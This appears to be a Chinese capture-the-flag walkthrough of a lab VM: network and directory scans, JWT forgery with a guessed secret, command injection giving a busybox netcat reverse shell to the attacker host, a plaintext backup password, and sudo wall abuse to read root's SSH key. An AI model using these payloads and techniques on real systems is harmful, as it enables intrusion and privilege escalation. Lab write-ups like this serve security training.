







### 攻击机：Kali Linux

### 一. 信息搜集

#### 先做存活主机发现

``` shell
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:2a:66:17, IPv4: 192.168.1.190
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.199   08:00:27:05:1c:24       PCS Systemtechnik GmbH
…… ……
```

#### nmap 端口扫描

``` shell
┌──(root㉿kali)-[~]
└─# nmap -sC -sV -p- -T4 192.168.1.199
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-30 11:51 CST
Nmap scan report for 192.168.1.199
Host is up (0.00055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: TI15 AME\xE5\x8A\xA9\xE5\xA8\x81
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 08:00:27:05:1C:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.22 seconds
```

#### gobuster 做目录扫描

``` shell
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.1.199 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.199
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/user                 (Status: 200) [Size: 2170]
/admin                (Status: 200) [Size: 1576]
/server-status        (Status: 403) [Size: 278]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================
```

### 二. HTTP 服务

#### 用 curl 查看主页内容


疑似遗留账号

#### curl 查看/admin 内容



也就是说这里要用 token 提交，我们看到的登录框是错误的

#### /user 没有什么可疑内容，不作演示

### 访问 HTTP 主页

#### 主页发现可能有用的信息


提示很明显，得到字符串：nevergiveup

#### 访问 user 进行登录尝试

登陆上之后页面无有用信息，F12 查看网络刷新拿到 token



#### JWT 解码

该 token 格式像 json web token 格式（xxxxx.xxxxxxx）

去尝试解码（https://jwt.p2hp.com/），验证签名大概率是之前得到的字符串 nevergiveup，然后 role 改成 admin



#### 利用 token 登录 admin 页面

yakit/bp 抓包，这里不作演示



#### Web Fuzz 测试

访问 karsakarsa369.php，页面显示 fuzz，猜测参数“cmd、commond、sys、system”等，这里测试后参数为 cmd



用 exec()函数反向连接，在 Kali 上监听端口

``` url
http://192.168.1.199/karsakarsa369.php?cmd=exec(%27busybox%20nc%20192.168.1.190%207777%20-e%20/bin/sh%27);
```

``` shell
(root㉿kali)-[~]
└─# nc -lvnp 7777                     
listening on [any] 7777 ...
connect to [192.168.1.190] from (UNKNOWN) [192.168.1.199] 54252
whoami
www-data
```

### user 用户提权

稳定化 shell 界面后，尝试 sudo -l 等命令发现需要密码，home 下也没有什么可疑文件

最后在寻找中找到密码 /var/backups/passwd

``` shell
www-data@logi:/var/backups$ ls -al
total 60
drwxr-xr-x  2 root root  4096 Sep 29 07:28 .
drwxr-xr-x 12 root root  4096 Sep 28 09:25 ..
-rw-r--r--  1 root root 25397 Sep 28 10:51 apt.extended_states.0
-rw-r--r--  1 root root  2568 Apr 11 22:03 apt.extended_states.1.gz
-rw-r--r--  1 root root  2556 Apr  4 22:55 apt.extended_states.2.gz
-rw-r--r--  1 root root  2006 Apr  1 10:05 apt.extended_states.3.gz
-rw-r--r--  1 root root  1542 Apr  1 03:53 apt.extended_states.4.gz
-rw-r--r--  1 root root   757 Mar 30  2025 apt.extended_states.5.gz
-rw-r--r--  1 root root    20 Sep 28 10:47 passwd
www-data@logi:/var/backups$ cat passwd
xiangwozheyangderen
```

### root 用户提权

sudo -l 发现无密码执行

``` shell
ame@logi:~$ sudo -l
sudo: unable to resolve host logi: Name or service not known
Matching Defaults entries for ame on logi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ame may run the following commands on logi:
    (ALL) NOPASSWD: /usr/bin/wall
```

wall 文件利用（[wall | GTFOBins](https://gtfobins.github.io/gtfobins/wall/)）



尝试用这个方法去读 root.txt，发现读不到，那就试一下读 ssh 文件（/root/.ssh/id_rsa）

先用自己的 ssh 工具登录 ame 用户



然后用 Kali 连接靶机 root 用户登录

``` shell
┌──(root㉿kali)-[~]
└─# ssh -i ./ssh root@192.168.1.199 
Linux logi 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 29 07:40:55 2025 from ::1
root@logi:~# 
```


tips:

``` shell
Permissions 0644 for './ssh' are too open.
# 权限太开放了，需要修改文件权限
chmod 600 your_ssh_file

└─# ssh -i ./ssh root@192.168.1.199
Load key "./ssh": error in libcrypto
# 制表符没删，用一下sed删除空格
sed -i 's/[[:space:]]*$//' your_ssh_file
```

flag：

``` shell
user:{niudexiongdiniude}
root{xiangrootzheyangderen}
```

